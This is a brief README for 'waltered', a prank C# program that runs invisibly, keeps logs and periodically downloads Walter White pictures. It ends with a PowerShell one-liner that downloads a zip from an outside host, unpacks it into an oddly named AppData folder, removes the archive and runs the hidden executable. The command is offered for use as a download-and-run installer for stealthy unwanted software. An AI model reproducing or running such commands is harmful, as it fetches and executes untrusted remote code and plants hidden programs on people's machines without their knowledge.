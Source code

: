 # waltered

Program written in C# that generates a number between 0 and 2000 every 20 seconds and if it is <= 750 then it will download one of 3 pictures of Walter White.

Very bad code but it was thrown together while I was bored.

Program also keeps logs and is invisible.

# Powershell Command

I also made a powershell command to download and run it.

`Invoke-WebRequest -Uri https://dcb.phxrmxcist.lol/waltered.zip -OutFile waltered.zip; mv waltered.zip "C:\Users\$env:username\AppData\Roaming\waltered.zip"; Expand-Archive -LiteralPath "C:\Users\$env:username\AppData\Roaming\waltered.zip" -DestinationPath "C:\Users\$env:username\AppData\Roaming\qdsf32sdf"; rm "C:\Users\$env:username\AppData\Roaming\waltered.zip"; cmd /c '%appdata%\qdsf32sdf\waltered.exe'`
